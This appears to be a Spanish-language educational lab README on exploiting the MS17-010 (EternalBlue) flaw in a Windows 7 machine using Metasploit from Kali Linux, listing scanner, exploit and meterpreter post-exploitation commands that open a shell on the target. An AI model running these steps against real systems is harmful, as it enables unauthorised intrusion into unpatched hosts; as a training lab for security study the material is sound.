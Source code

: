 Explotación de vulnerabilidad utilizando metasploit
===============
Este laboratorio es para fines educativos y su contenido no debe ser utilizado para fines ilícitos  

**Objetivos**
* Experimentar la explotación de una vulnerabilidad 
* Interactuar con la consola de comandos de comandos de metasploit. 
* Interactuar con la consola de comandos de meterpreter.  

**Requisitos**
* Máquina objetivo: Windows 7 64bits  
* Equipo Auditor: Kali Linux 

**Utilizar un scanner para detercar si el equipo es vulnerable a  MS17-010**
* Desde Kali Linux Inicie una sesión de terminal y escriba los siguientes comandos:
```
msfconsole
```
![alt text](./lab01-images/lab01-fig1-msf-console.png "Metasploit framework")

```
Search ms17_10
```
![alt text](./lab01-images/lab01-fig2-msf-console.PNG "Metasploit framework")
```
use auxiliary/scanner/smb/smb_ms17_010
``` 
```
set RHOSTS “Dirección IP del host windows 7 64bits”
```
```
run
```
![alt text](./lab01-images/lab01-fig3-msf-console.PNG "Metasploit framework")
**Exploiting**
```
use exploit/windows/smb/ms17_010_eternalblue ```
```
```
show options
``` 
```
set RHOST “Dirección IP del host windows 7 64bits” 
```
```
exploit 
```
![alt text](./lab01-images/lab01-fig3-msf-console.PNG "Metasploit framework")
 
**Post Exploitation**
```bash
Sysinfo
```
![alt text](./lab01-images/lab01-fig5-msf-console.PNG "Metasploit framework")
```bash
Getuid
```
![alt text](./lab01-images/lab01-fig6-msf-console.PNG "Metasploit framework")
```Bash
Shell
```
![alt text](./lab01-images/lab01-fig7-msf-console.PNG "Metasploit framework")

**Enlace para mayor información**

```
https://www.metasploit.com/
```
```
https://www.offensive-security.com/
metasploit-unleashed/msfconsole-commands/
```
```
https://www.offensive-security.com/metasploit-unleashed/meterpreter-basics/
```